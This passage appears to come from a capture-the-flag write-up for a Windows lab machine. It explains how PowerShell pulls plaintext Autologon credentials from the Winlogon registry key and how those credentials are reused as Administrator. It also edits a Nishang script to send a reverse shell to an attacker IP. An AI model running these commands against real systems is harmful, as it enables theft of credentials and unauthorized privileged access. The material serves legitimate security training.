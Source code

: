 Viewing the _Unattend.xml_ file, we see that the password was redacted. So let’s focus on the Autologon credentials. The default username is “_Alfred_” and the default password is “_Welcome1!_”. I don’t have much experience with Windows, so I googled [Autologin credentials](https://support.microsoft.com/en-ca/help/324737/how-to-turn-on-automatic-logon-in-windows) to learn more about it.

![](https://miro.medium.com/max/1148/1*oR22IbW1Do-rN8XOfFjtjQ.png)

As stated in the article, these credentials are stored in the registry in plain text. The manual commands for extracting these credentials are:

```text
PS C:\Windows\system32> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName                                                                                                                         
Alfred                                                                                                                                               PS C:\Windows\system32> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword                                                                                                                         
Welcome1!
```

These credentials are set by the administrator. Since users have a tendency to reuse passwords, let’s see if the administrator account is set to the same password.

To do that, first run the following command to convert the plain text string “_Welcome1!_” into a secure string and store the result in the _$password_ variable.

```text
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
```

* **ConvertTo-SecureString**: Converts plain text to secure strings.
* **-AsPlainText**: Specifies a plain text string to convert to a secure string.
* **-Force**: Confirms that you understand the implications of using the _AsPlainText_ parameter and still want to use it.

Second, create a new object to store these credentials.

```text
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
```

Third, we’ll use these credentials to start PowerShell and send a \(hopefully privileged\) reverse shell back to our attack machine.

In the attack machine, copy the _shell.ps1_ script we used earlier and save it in the file _shell-admin.ps1_.

```text
cp shell.ps1 shell-admin.ps1
```

Change _shell-admin.ps1_ to send a reverse shell to our attack machine on port 6666.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```
